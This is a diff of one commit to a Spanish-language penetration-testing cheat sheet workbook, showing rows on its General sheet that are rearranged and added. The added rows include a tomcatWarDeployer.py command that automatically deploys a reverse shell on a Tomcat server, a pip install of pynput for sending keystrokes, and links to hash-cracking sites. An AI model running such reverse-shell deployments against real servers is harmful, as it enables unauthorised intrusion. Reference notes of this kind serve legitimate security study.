

Before and after one commit to AmatheraeWorld/AmatheraeWorld, an Excel workbook: CheatSheet.xlsm, sheet General, drawn as a sheet; only a part is shown, gaps mark what is left out; values as stored, in another font and other column widths than the file's, no cell formats; removed rows and columns are numbered as before the commit, all else as after; the diff covers the shown part only; the diff names each change by its address in the sheet, - before the commit and + after, or states it on an @@ line.

```diff
--- a/CheatSheet.xlsm (sheet General)
+++ b/CheatSheet.xlsm (sheet General)
-R25: python tomcatWarDeployer.py -U user -P password -H 10.10.10.10 -p 9999 IP_TomCat
+R25: find /usr -name os.py -ls 2>/dev/null
-S25: Para desplegar una shell reversa de forma automatica en TomCat
+S25: Nos muestra los permisos de la libreria os de Python
-T25: Descargar de su Github
+T25: (empty)
-R26: (empty)
+R26: python -m pip install -r requirements.txt
-S26: (empty)
+S26: Para instalar modulos que sean requeridos para ejecutar un exploit
-R27: (empty)
+R27: python tomcatWarDeployer.py -U user -P password -H 10.10.10.10 -p 9999 IP_TomCat
-S27: (empty)
+S27: Para desplegar una shell reversa de forma automatica en TomCat
-T27: (empty)
+T27: Descargar de su Github
-R28: CRYPTOGRAFIA & ENCODE/DECODE
+R28: pip3 install pynput
-R28:T28 merged
-S28: (empty)
+S28: Para Mandar teclas en Scripts
-T28: (empty)
+T28: pip install pynput En python2
-R29: Comandos
+R29: (empty)
-S29: Descripcion
+S29: (empty)
-T29: Anotaciones
+T29: (empty)
-R30: hashkiller.co.uk
+R30: CRYPTOGRAFIA & ENCODE/DECODE
+R30:T30 merged
-S30: Base de datos de md5 descifrados.
+S30: (empty)
-R31: Dcode.fr
+R31: Comandos
-S31: Desencriptar hashes, cripter, formulas matematicas, decodificadores….
+S31: Descripcion
-T31: (empty)
+T31: Anotaciones
-R32: Cyberchef
+R32: hashkiller.co.uk
-S32: Cifrado, codificación, compresión, entre otros…
+S32: Base de datos de md5 descifrados.
-R33: rumkin.com
+R33: Dcode.fr
-S33: Desencryptar vigenere
+S33: Desencriptar hashes, cripter, formulas matematicas, decodificadores….
-T33: Es un metodo de sustitucion de clave maestra en texto
+T33: (empty)
-R34: crackstation
+R34: Cyberchef
-S34: Para crackear hashes
+S34: Cifrado, codificación, compresión, entre otros…
```
Also changed, not shown: 19 added rows, 10 removed rows, 80 edited cells and merged cells elsewhere in this sheet, sheet Explotacion & Post-Explotacion, sheet Red Team, sheet Enumeracion & Escaneos, sheet Inyecciones, sheet Interceptadores & Web, sheet Reversing & Forensics, cell formats.
